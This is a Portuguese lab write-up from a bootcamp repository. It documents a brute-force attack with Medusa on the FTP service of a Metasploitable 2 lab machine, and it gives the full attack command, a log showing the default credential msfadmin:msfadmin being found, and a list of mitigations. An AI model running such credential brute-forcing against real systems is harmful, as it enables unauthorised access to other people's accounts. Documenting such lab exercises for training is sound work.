

# FTP‑01 – Força Bruta em FTP (Metasploitable 2)

## 📌 Objetivo
Realizar um ataque de força bruta contra o serviço FTP da máquina **Metasploitable 2** (IP `192.168.1.11`) usando a ferramenta **Medusa**. O cenário demonstra como combinar usuário e senha para descobrir credenciais válidas.

## 🛠️ Pré‑requisitos
- Kali Linux (IP `192.168.1.10`) com **Medusa** instalado (`sudo apt install medusa`).
- Máquina alvo **Metasploitable 2** rodando o serviço FTP (`vsftpd`).
- Wordlists:
  - `users.txt` – contém o usuário `msfadmin` (exemplo). 
  - `pass_small.txt` – lista curta de senhas (`msfadmin`, `qwerty`, `password`, `123456`).

## 🚀 Comando executado
```bash
medusa -h 192.168.1.11 \
       -U users.txt \
       -P pass.txt \
       -M ftp \
       -t 10 -f -v 3 \
       | tee ftp01.log
```

> **Obs.:** `-t 10` usa 10 threads paralelas; `-f` interrompe ao encontrar a primeira credencial válida; `-v 3` aumenta o nível de verbosidade para que o log contenha cada tentativa.

## 📄 Resultados (log resumido)
A saída completa está em `ftp01.log`. Abaixo, um resumo das linhas mais relevantes:
```
2026-11-17 21:39:19 ACCOUNT CHECK: [ftp] Host: 192.168.1.11 User: msfadmin Password: msfadmin (1 of 4)
2026-11-17 21:39:19 ACCOUNT FOUND: [ftp] Host: 192.168.1.11 User: msfadmin Password: msfadmin [SUCCESS]
2026-11-17 21:39:22 ACCOUNT CHECK: ... Password: qwerty (2 of 4)
2026-11-17 21:39:22 ACCOUNT CHECK: ... Password: password (3 of 4)
2026-11-17 21:39:22 ACCOUNT CHECK: ... Password: 123456 (4 of 4)
```
A credencial **`msfadmin:msfadmin`** foi encontrada com sucesso.

## 📸 Captura de tela


## 🛡️ Mitigações recomendadas
- **Desativar FTP** ou substituir por SFTP/FTPS.
- **Limitar tentativas** de login (ex.: `fail2ban`).
- Utilizar **senhas fortes** e políticas de expiração.
- Restringir **acesso por IP** nas regras de firewall.

---
**Referências**
- Medusa manual: `man medusa`.
- Metasploitable 2 – descrição dos serviços vulneráveis: https://github.com/rapid7/metasploitable2

*Este arquivo faz parte da documentação do repositório *bootcamp‑dio* e serve como evidência do cenário FTP‑01.*
